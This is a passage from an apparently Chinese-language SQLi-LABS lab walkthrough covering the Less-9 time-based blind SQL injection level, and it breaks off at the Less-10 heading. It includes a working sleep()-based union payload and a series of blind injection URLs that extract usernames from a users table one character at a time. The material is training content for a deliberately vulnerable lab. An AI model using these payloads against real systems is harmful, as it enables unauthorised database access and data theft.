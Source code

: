 + 假设SQL语句为：

```sql
select column1, column2, column3 from users where id = '$id' limit 0, 1;
```

+ 尝试使用sleep()函数进行注入：

```sql
?id=0 'union select 1,2, sleep(3) --+
```

+ 发现页面返回花费了3秒多的时间。

![image-20210926163416721](../../images/SQLi-LABS/image-20210926163416721.png)

+ 现在我们已经成功注入了。我们可以依靠Less-8的方法进行猜出数据。

```sql
# 查询第一位数据
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),1,1)='a',sleep(3),0) --+
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),1,1)='b',sleep(3),0) --+
...
# 正确
/?id=1' and 1=if(substr((select group_concat(username) from users),1,1)='d',sleep(3),0) --+

# 查询第二位数据
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='a',sleep(3),0) --+
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='b',sleep(3),0) --+
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='c',sleep(3),0) --+
...
# 正确
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='u',sleep(3),0) --+
```

## Less-10 基于时间双引号字符串

+ 由于这里的SQL语句应该和Less-9区别不大。猜测应该是如下所示：
